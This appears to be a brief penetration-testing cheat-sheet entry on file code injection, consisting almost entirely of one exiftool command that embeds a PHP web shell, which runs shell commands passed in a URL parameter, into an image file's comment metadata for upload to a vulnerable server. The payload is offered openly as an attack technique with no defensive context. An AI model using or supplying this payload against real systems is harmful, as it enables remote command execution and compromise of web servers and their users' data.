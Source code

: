 # File code injection

## File code injection

### exiftool image injection

```text
exiftool -Comment=’<?php echo “<pre>”; system($_GET[‘cmd’]); ?>’ MY_IMAGE.png
```

